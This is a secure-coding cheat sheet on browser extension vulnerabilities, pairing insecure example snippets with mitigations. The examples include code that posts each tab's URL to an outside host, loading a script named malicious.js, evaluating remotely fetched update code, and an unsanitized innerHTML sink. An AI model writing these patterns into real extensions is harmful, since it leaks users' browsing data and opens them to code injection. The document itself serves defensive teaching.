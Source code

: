# Browser Extension Security Vulnerabilities Cheat Sheet

1. Permissions Overreach

🚨 Vulnerability
Browser extensions sometimes request more permissions than they actually need. This can grant them access to all tabs, browsing history, and even sensitive user data. If an extension is compromised, it could lead to serious privacy risks.

🔍 Example

json
Copy code
{
  "manifest_version": 2,
  "name": "My Extension",
  "permissions": [
    "tabs",
    "http://*/*",
    "https://*/*",
    "storage"
  ]
}
🔒 Mitigation

Follow the Principle of Least Privilege (PoLP) and request only the permissions that are absolutely necessary.
Use optional permissions whenever possible instead of granting full access upfront.
Regularly audit and remove any permissions that are no longer needed.

2. Data Leakage

🚨 Vulnerability
Some extensions unintentionally expose user data by sending browsing activity or personal details to external servers without proper security measures.

🔍 Example

javascript
Copy code
chrome.tabs.onUpdated.addListener((tabId, changeInfo, tab) => {
  if (changeInfo.status === 'complete') {
    fetch('http://example.com/track', {
      method: 'POST',
      body: JSON.stringify({ url: tab.url })
    });
  }
});
🔒 Mitigation

Always use HTTPS for all communications to prevent data interception.
Limit data collection and be transparent by clearly stating what data is collected in a Privacy Policy.
Implement user consent mechanisms before collecting or sending any personal data.

3. Cross-Site Scripting (XSS)

🚨 Vulnerability
If user input is not properly sanitized, attackers can inject malicious scripts into web pages, potentially stealing user data or performing unauthorized actions.

🔍 Example

javascript
Copy code
let userInput = document.getElementById('input').value;
document.getElementById('output').innerHTML = userInput; // No sanitization
🔒 Mitigation

Implement Content Security Policy (CSP) to block inline scripts.
Use libraries like DOMPurify to sanitize user input before displaying it.
Avoid using innerHTML and instead use textContent to prevent execution of injected scripts.

4. Insecure Communication

🚨 Vulnerability
Some extensions send sensitive data over unsecured HTTP connections, making it vulnerable to interception by attackers.

🔍 Example

javascript
Copy code
fetch('http://example.com/api/data');
🔒 Mitigation

Always use HTTPS for external communications to prevent data theft.
Validate server responses before processing them to ensure data integrity.

5. Code Injection

🚨 Vulnerability
An extension that dynamically loads scripts from an untrusted source can be exploited to inject and execute malicious code.

🔍 Example

javascript
Copy code
let script = document.createElement('script');
script.src = 'http://example.com/malicious.js';
document.body.appendChild(script);
🔒 Mitigation

Use CSP (Content Security Policy) to restrict script sources.
See the [CSP Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Content_Security_Policy_Cheat_Sheet.html) for more details.
Avoid using eval() and innerHTML as they can execute malicious code.
Prefer using extension messaging APIs instead of injecting scripts into web pages.

6. Malicious Updates

🚨 Vulnerability
If an extension fetches updates from an untrusted server, an attacker could push malicious updates to all users.

🔍 Example

javascript
Copy code
chrome.runtime.onInstalled.addListener(() => {
  fetch('http://example.com/update-script.js')
    .then(response => response.text())
    .then(eval); // Unsafe!
});
🔒 Mitigation

Sign extension updates with digital signatures to ensure authenticity.
Instead of fetching updates within the extension, rely on updates from the extension marketplace.
See ["Don’t inject or incorporate remote scripts"](https://developer.mozilla.org/en-US/docs/Mozilla/Add-ons/WebExtensions/Security_best_practices).
Implement integrity checks before executing any fetched code.

7. Third-Party Dependencies

🚨 Vulnerability
Using outdated or vulnerable third-party libraries in an extension can introduce security risks if those libraries have known exploits.

🔍 Example

json
Copy code
{
  "dependencies": {
    "vulnerable-lib": "1.0.0"
  }
}
🔒 Mitigation

Regularly audit third-party dependencies for security vulnerabilities.
Use tools like npm audit or OWASP Dependency-Check to detect risks.
Prefer actively maintained libraries with frequent security updates.

8. Lack of Content Security Policy (CSP)

🚨 Vulnerability
Without a strict CSP, attackers can inject scripts into an extension’s web pages, increasing the risk of cross-site scripting (XSS) attacks.

🔍 Example

json
Copy code
{
  "manifest_version": 2,
  "name": "My Extension",
  "content_security_policy": "default-src 'self'"
}
🔒 Mitigation

Define a strict CSP in the extension’s manifest.json file.
Use nonce-based or hash-based policies to allow only trusted scripts.
Block execution of inline scripts and restrict third-party content sources.

9. Insecure Storage

🚨 Vulnerability
Storing sensitive data like authentication tokens in localStorage or other unsecured locations makes it easy for attackers to access.

🔍 Example

javascript
Copy code
localStorage.setItem('token', 'my-secret-token'); // No encryption
🔒 Mitigation

Store sensitive data in Chrome Storage API, which provides better security than localStorage.
Encrypt stored data before saving it locally.
Never hardcode API keys or credentials within the extension code.

10. Insufficient Privacy Controls

🚨 Vulnerability
If an extension does not clearly define how it collects and handles user data, it could lead to privacy violations and unauthorized data usage.

🔍 Example

json
Copy code
{
  "manifest_version": 2,
  "name": "My Extension",
  "description": "A cool extension with no privacy policy."
}
🔒 Mitigation

Implement a clear privacy policy that explains data collection practices.
Allow users to opt out of data collection.
Disclose data-sharing practices to comply with GDPR, CCPA, and other privacy regulations.

🏁 Conclusion
By following these security best practices, developers can build safer browser extensions and protect users from privacy and security threats. Always prioritize least privilege, encryption, and secure coding principles when developing extensions.

🔹 References:
[Google Chrome Extension Security Guide](https://developer.chrome.com/docs/extensions/mv3/security/)  
[Mozilla Firefox Extension Security Best Practices](https://developer.mozilla.org/en-US/docs/Mozilla/Add-ons/WebExtensions/Security_best_practices)
